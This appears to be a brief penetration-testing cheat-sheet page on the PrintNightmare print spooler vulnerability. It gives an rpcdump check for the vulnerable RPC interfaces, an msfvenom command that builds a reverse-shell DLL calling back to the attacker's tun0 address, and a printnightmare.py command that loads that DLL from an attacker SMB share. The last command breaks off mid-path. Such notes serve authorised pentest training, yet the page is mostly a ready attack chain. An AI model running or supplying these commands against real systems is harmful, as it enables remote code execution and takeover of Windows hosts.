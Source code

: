 # Remote Procedure Call

#### Test For Print Nightmare

```
rpcdump.py @$ip | egrep 'MS-RPRN|MS-PAR'
```

_If the output is the following contains the following, it is vulnerable._

```
Print System Aschronous Remote Protocol
```

```
Print System Remote Protocol
```

{% code overflow="wrap" fullWidth="false" %}
```
msfvenom -p windows/x64/shell_reverse_tcp lhost=$tun0 lport=53 -f dll -o /opt/winreconpack/thescriptkid.dll
```
{% endcode %}

{% code overflow="wrap" %}
```
python3 printnightmare.py domain.local/user:password@$ip '\\$tun0\winreconpack\thescriptk
```
{% endcode %}
